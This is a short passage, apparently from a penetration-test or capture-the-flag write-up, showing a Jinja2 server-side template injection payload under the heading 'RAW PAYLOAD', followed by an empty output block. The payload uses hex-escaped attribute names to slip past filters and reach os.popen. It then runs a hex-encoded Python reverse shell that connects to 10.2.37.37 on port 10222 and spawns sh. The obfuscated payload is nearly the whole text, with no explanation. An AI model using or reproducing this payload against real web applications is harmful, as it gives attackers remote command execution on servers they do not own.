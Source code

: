 ![image.png](image%2017.png)

**RAW PAYLOAD:**

```powershell
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x70\x79\x74\x68\x6f\x6e\x33\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x32\x2e\x33\x37\x2e\x33\x37\x22\x2c\x31\x30\x32\x32\x32\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x73\x68\x22\x29\x27')|attr('read')()}}
```

**OUTPUT:**

```powershell
```